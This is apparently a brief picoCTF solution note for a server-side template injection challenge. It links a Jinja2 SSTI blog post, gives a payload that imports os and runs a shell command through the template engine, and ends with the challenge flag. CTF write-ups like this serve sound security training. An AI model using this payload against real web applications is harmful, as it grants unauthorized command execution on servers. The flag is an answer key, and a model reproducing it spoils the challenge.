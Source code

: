 # Solution

- [Resource](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`

- `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}`

---
